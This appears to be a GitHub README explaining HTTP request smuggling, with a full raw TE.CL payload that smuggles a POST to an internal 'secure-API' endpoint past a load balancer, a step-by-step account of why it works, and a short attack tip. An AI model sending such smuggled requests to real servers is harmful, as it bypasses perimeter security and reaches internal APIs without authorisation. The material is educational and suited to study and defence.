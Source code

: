 # HTTPRequestSmuggling
ELI5/ Deep Dive - HTTTP Request Smuggling


## TL;DR - What is it?
Read: https://portswigger.net/web-security/request-smuggling

## Lets dive!

#### So why exactly is this dangerous from a security perspective

Most modern web application infrastructure consists of one or many load balancers/WAFs, which sit in front of actual application servers. Typically, the trust model for these is that traffic to the load balancer from the outside internet is seen as unsafe, but traffic from the load balancer to the application server or from the application server itself is safer as it has made it past the load balancer security controls.

Consider this: In the below diagram, we see some sort of WAF/Load Balancer that sits in front of several API gateways. If the infrstructure is such that the assumption is that illegitemate/unsafe traffic is prevented from hitting the API's via the WAF, then smuggling requests past the WAF enable us to send requests to API endpoints that we were not allowed to send requests from outside the security perimeter.

![Alt text](images/application.png "Application")

## Example
The following POST request is an example of smuggling a POST request to an internal API named `secure-API` In this case, we are dealing with the load balancer accepting the `Transfer-Encoding` header, and the API accepting the `Content-Length` this is called a `TE.CL` attack.

```
POST / HTTP/1.1
Host: test.mysite.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://somesite.net
DNT: 1
Connection: close
Cookie: session=F9Rf9fqjQ37lLSBDd3EHEpehDygMs75i
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

68
POST /secure-API HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

foo=ba
0


```
Sending this request twice will have the intended affect of POST'ing `foo=bar` to the `secure-API` resource.

### Why does this work?
1. The first evaluation is by the load balancer that supports the `Transfer-Encoding` header, it observes that the length of the body of the request should be 104 chars long, <b> the `Transfer-Encoding` length is specified in Hex hence `68` </b> which is the decimal equivalent of 104. Thus the first chunk ends at the beginning of the line that contains 0 <b>(remember each newline also counts as a byte!)</b>b. The second chunk is processed as 0 which is read as the end of the request
2. The request is forwarded to a server that then supports `Content-Length` which sees that the request body should only be 3 bytes long, so it reads up to the end of `68`, as it is reading `68\n` <- 3 bytes
3. The remaining 

```
68
POST /secure-API HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

foo=ba
0
```
Is left on the server and will prepend any incoming request!



MISC 
* TE.CL turn off content length and add 2 returns 
